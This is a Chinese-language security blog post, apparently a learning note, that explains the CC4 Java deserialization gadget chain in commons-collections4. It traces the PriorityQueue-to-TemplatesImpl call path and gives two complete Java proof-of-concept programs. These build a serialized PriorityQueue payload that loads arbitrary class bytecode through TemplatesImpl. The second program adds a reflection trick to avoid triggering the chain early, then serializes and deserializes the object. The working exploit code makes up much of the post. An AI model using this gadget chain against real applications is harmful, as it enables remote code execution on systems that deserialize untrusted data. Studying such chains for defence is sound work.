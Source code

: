 ```yaml
---
layout: post
title: CC链-CC4
subtitle: Let's start learning!
tags: [CC链]
author: Sine
---
```


# CC4

CC4是针对commons-collections4版本的攻击链

PriorityQueue.readObject()->PriorityQueue.heapify()->PriorityQueue.siftDown()->PriorityQueue.siftDownUsingComparator()->TransformingComparator.compare()->ChainedTransformer.transform()->ConstantTransformer.transform()->InstantiateTransformer.transform()->TrAXFilter.TrAXFilter()->TemplatesImpl.newTransformer()->TemplatesImpl.getTransletInstance()->TemplatesImpl.defineTransletClasses()->ClassLoader.defineClass()->newInstance()

我们直接来看TransformingComparator中的compare方法调用了transform方法

![image-20250213213529995](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250213213530024.png)

this.transform在构造函数里被赋值

![image-20250213213634040](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250213213634095.png)

TransformingComparator.compare在PriorityQueue.siftDownUsingComparator中被调用

![image-20250213213710644](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250213213710678.png)

comparator在构造函数里被赋值，this.comparator = comparator

![image-20250218203046661](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250218203046812.png)

siftDownUsingComparator被siftDown调用

![image-20250213213811111](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250213213811146.png)

siftDown被heapify调用

![image-20250213213844021](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250213213844085.png)

heapify在本类的readObject方法中调用

![image-20250213213906874](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250213213906955.png)

前半部分可采用CC3，初始化TransformingComparator，传入chainedTransformer赋值给this.transform

再把TransformingComparator传入PriorityQueue进行初始化，PriorityQueue的成员变量this.comparator即为TransformingComparator，再调用TransformingComparator.compare方法

然后在compare方法里会调用chainedTransformer.transform方法

在heapify中，要满足i = (size >>> 1) - 1>= 0才能调用siftDown方法，所以要使size>2

![image-20250213220033214](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250213220033254.png)

所以要往priorityQueue中add至少两个对象

此时，还未进行序列化反序列化，但也能够执行

```java
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;


public class CC4Test {

    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException {

        TemplatesImpl templates = new TemplatesImpl();
        Class templatesClass = templates.getClass();
        Field nameField = templatesClass.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates,"123");
        Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte [] code = Files.readAllBytes(Paths.get("/Users/sine/Desktop/code/Java/untitled1/target/classes/org/example/Test.class"));
        byte[][] codes = {code};
        bytecodesField.set(templates,codes);
        Field _tfactoryField = templatesClass.getDeclaredField("_tfactory");
        _tfactoryField.setAccessible(true);
        _tfactoryField.set(templates,new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);
        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
        priorityQueue.add(1);
        priorityQueue.add(2);
    }

}
```

![image-20250218212120658](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250218212120705.png)

priorityQueue.add方法也会调用到siftUpUsingComparator()->compare，所以可以先在transformingComparator初始化时传入一个无用的对象赋值给this.transform，等到add结束后，再修改transformingComparator成员变量transform的值

```JAVA
package org.example;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;


public class CC4Test {

    public static void main(String[] args) throws Exception {

        TemplatesImpl templates = new TemplatesImpl();
        Class templatesClass = templates.getClass();
        Field nameField = templatesClass.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "123");
        Field bytecodesField = templatesClass.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("/Users/sine/Desktop/code/Java/untitled1/target/classes/org/example/Test.class"));
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);
        Field _tfactoryField = templatesClass.getDeclaredField("_tfactory");
        _tfactoryField.setAccessible(true);
        _tfactoryField.set(templates, new TransformerFactoryImpl());

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer(1));
        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
        priorityQueue.add(1);
        priorityQueue.add(2);
        Class transformingComparatorClass = transformingComparator.getClass();
        Field transformField = transformingComparatorClass.getDeclaredField("transformer");
        transformField.setAccessible(true);
        transformField.set(transformingComparator, chainedTransformer);

        serialize(priorityQueue);
        unserialize("ser.bin");
    }
        public static void serialize(Object obj) throws Exception {
            ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
            oos.writeObject(obj);
        }

        public static Object unserialize(String Filename) throws Exception {
            ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
            Object obj = ois.readObject();
            return obj;
        }


    }
```

![image-20250221095531619](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250221095531735.png)
# 
